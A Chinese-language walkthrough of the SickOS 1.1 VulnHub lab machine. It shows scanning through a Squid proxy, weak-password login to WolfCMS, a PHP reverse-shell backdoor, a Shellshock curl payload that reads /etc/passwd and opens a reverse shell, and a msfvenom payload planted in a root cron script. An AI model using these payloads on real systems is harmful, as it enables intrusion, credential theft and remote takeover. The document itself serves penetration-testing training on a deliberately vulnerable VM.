

SickOS 1.1 - 渗透
---

>   参考视频: [红队笔记](https://www.bilibili.com/video/BV1Em4y1A7XX)

靶机下载: [vulnhub](https://download.vulnhub.com/sickos/sick0s1.1.7z)

### Nmap 扫描

#### 主机发现

还是先用 Nmap 扫一下主机和端口:

```bash
sudo nmap -sn 192.168.170.0/24
```

#### 端口扫描


```bash
sudo nmap --min-rate 10000 -p- 192.168.170.138
```

---


查阅了一下, squid 服务是传统代理, 其主要作用是 **缓存 + 代理**:
-   将网页内容缓存在本地, 方便下次快速访问;
-   代理转发, 工作在应用层, 代理本身通常是不加密的, 直接明文传输, 容易被识别(这一点与 VPN 不同, 后者是通过**加密隧道**进行全程网络加密, 使用 IPSec; OpenVPN 等强加密, )
-   squid 这类传统代理的侧重点在于**流量**和**访问控制**, 而 VPN 的侧重点在于**绝对隐私**和**全流量加密**。

```bash
sudo nmap -sT -sV -O -p22,3128,8080 192.168.170.138
sudo nmap -sU -p22,3128,8080 192.168.170.138
sudo nmap --script=vuln -p22,3128,8080 192.168.170.138
```

---


---

### 信息收集

根据回显尝试访问 3128 端口`https://192.168.170.138:3128`:


>   可以看到的信息是, squid 版本号为 `3.1.19`, 和 nmap 扫描结果一致。

### 解法1: Squid 利用

#### 目录爆破

目前是信息都指向 3128 端口, 但是信息不足, 考虑爆破一下目录:
```bash
sudo dirb http://192.168.170.138:3128
sudo gobuster dir -u http://192.168.170.138:3128 --wordlist=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

dirb 没有发现有效信息, gobuster 报错, **Squid 是代理服务,不会直接响应 HTTP 请求 (如 GET)**, 因此返回 400 错误（Bad Request）。


考虑到 3128 是代理服务的端口, 将其作为代理再扫一次(80端口):

```bash
sudo dirb http://192.168.170.138 -p http://192.168.170.138:3128
sudo gobuster dir -u http://192.168.170.138 --wordlist=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --proxy http://192.168.170.138:3128
```

> dirb A -p B 为通过代理地址 B 扫描 A
> gobuster 中为 gobuster A --proxy B


利用这个思路, 在浏览器里面把 squid 端口设为代理, 然后访问官网:


可以访问, 接下来看看扫出来的其他文件:


#### 后台登录

根据显示信息, 尝试访问 `/wolfcms`:


>   CMS(Content Management System), 即**内容管理系统**, 可以简单理解为自定义论坛或者博客的引擎, 例如 Wordpress 等, 都属于 CMS。

>   WolfCMS 是一个轻量级、开源的内容管理系统（CMS），基于 PHP 和 MVC（模型-视图-控制器）架构开发。现已不再维护。现在看到的界面很可能类似于"管理员主页"。

>   主页文章应该是自动生成的, 这里显示 Administrator, 那么很可能是系统自动生成使用的预留用户名为 `Administrator`。顺便还能看见日期在 2015 年, 说明这是很久的版本, 很可能有漏洞。

确定了以上信息之后, 着手尝试管理员路径, 可以用搜索引擎, 官方文档, 或者直接问 AI 的方式查询该路径, 同时注意到文章界面 Article 的 URL 为 `http://192.168.170.138/wolfcms/?articles.html`, 因此尝试 `http://192.168.170.138/wolfcms/?admin.html`, 重定向到了登录界面:


下一步是登录网站, 根据之前的信息, 结合搜索引擎和 [Github 源码](https://github.com/wolfcms/wolfcms/blob/master/wolf/install/do-install.php), Username 可能是 Administrator (前文文章页中出现) 或者 admin, 再尝试一下弱密码, 很快就能试出 `账:密` 为: `admin:admin`


点进去任意一个页面, 发现该后台可以直接修改网页的源码, 基本上可以确定这里可以直接执行 Shell 了。Pages, Snippets, Layouts 中任意文件均可以植入。


Files 中还存在大量文件, 可以看到权限分配, 也是一个很大的攻击面。


#### 一句话木马

php 有很多一句话木马, 这里用了一个简单的**反弹shell**(Reverse Shell):

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.170.135/443 0>&1'");?>
```

>   注意反弹 Shell 监听时使用的是 Kali 的 IP, 毕竟是反弹到 Kali 终端上。

将以上代码嵌入 Article.html 中, 并在 kali 中开启对应端口的监听, 再打开网页:

```bash
sudo nc -lvnp 443
```

---


输入 `ls` 可以看到目录下存在 `config.php` 文件, 有建站经验一下就能反应过来, 建站一般要选数据库, 这个数据库的账密就很有可能存在这个文件中, 用 `cat` 看一下:

显示了数据库账号密码。


再看一下系统下的用户:

```bash
cat /etc/passwd
```

可以看到有几个比较可疑的账户, 其中 SickOS 和刚刚 `uname -a` 回显的名字是一致的, 这里可以重点关注。


#### 提权

另开一个 bash, 尝试一下 ssh 登录并输入密码 `john@123`:

```bash
ssh sickos@192.168.170.138
```

成功登录


接下来简单过一下信息, 然后用 `sudo -l` 看一下权限:


用管理员身份启动 bash:

```bash
sudo /bin/bash
```

---


到这里已经拿下 flag, 渗透结束。

### 解法2: shellshock

#### nikto 扫描

用 nikto 挂上代理重新扫描一遍:

```bash
sudo nikto -h 192.168.170.138 -useproxy http://192.168.170.138:3128
```

---


提示存在 shellshock 漏洞, 编号 CVE-2014-6271。

>   shellshock 或 bashdoor, 是 bash shell 的一个远程代码执行漏洞, 其核心问题在于 Bash 对环境变量解析的缺陷，允许攻击者通过**构造恶意环境变量注入任意命令**。

>   攻击者可在环境变量中追加额外命令，Bash 会直接执行这些命令。例如: `export EVIL='() { :; }; echo "Hacked!"'` ,在函数定义后添加 `echo "Hacked!"`

#### shellshock 利用

用 `curl` 模拟 HTTP 交互, 访问刚刚 nikto 扫出的 `cgi-bin/status` 目录:

>   `curl` 中, `-H` 用于设置自定义的 HTTP 请求头。这个参数可以用来向服务器发送额外的 HTTP 头信息，例如自定义的用户代理、认证信息、内容类型等。

---

```bash
sudo curl -v --proxy http://192.168.170.138:3128 http://192.168.170.138/cgi-bin/status -H "User-Agent: () { :; }; echo; /bin/cat /etc/passwd"
```

---


首先可以通过注入看到 passwd 文件。这也说明这个漏洞是存在的, 接下来只需要构造一个 payload 获得反弹 shell 即可。

在 kali 上打开端口 443 的监听:

```bash
nc -lvnp 443
```

然后构造以下 payload 并发送数据:

```bash
sudo curl -v --proxy http://192.168.170.138:3128 http://192.168.170.138/cgi-bin/status -H "User-Agent: () { :; }; /bin/bash -c 'bash -i >& /dev/tcp/192.168.170.135/443 0>&1'"
```


可以看到已经弹回了 www-data 的 shell, 现在可以和 `解法 1` 一样,结合刚刚的 passwd 文件一样进行提权即可, 不过需要注意, 利用 shellshock 弹回的 shell 当前目录与之前不同, 要先转到 `/var/www/` 下执行 `ls -liah` 才能显示 `config.php` 。

或者也可以使用 crontab 定时任务来提权。

```bash
cd /etc/cron.d
ls -liah
```

---




这里显示系统会定时使用 root 的身份执行这个 `connect.py` 文件, 现在只需要构造一个 python 中可用的 payload 即可。

#### msfvenom 构造 payload

`msfvenom` 是一个常用的构造 payload 的工具。以下参数分别是 payload 类型, 地址, 端口号, 源码。用这个工具生成的 payload 更不容易被识别。

```bash
sudo msfvenom -p cmd/unix/reverse_python lhost=192.168.170.135 lport=444 -f raw 
```

拷贝这一大团 payload, 粘贴在 `connect.py` 后, 用 `cat` 验证一下:


之后就和解法 1 一样, 直接拿到了 root 账户。

### 总结

SickOS 的解法主要是两种:
-   利用 Squid 代理访问 wolfCMS, 尝试弱密码登录, 然后观察可知 CMS 可直接编辑网页源码, 从而实现执行任意 php 代码, 获取 www-data 的反弹 shell, 再通过后台暴露的信息尝试登录高权限用户从而提权。
-   利用 Shellshock 漏洞, 伪造请求构造环境变量直接获取 www-data 的反弹 shell, 然后通过修改 crontab 定时任务的执行脚本来完成 root 提权。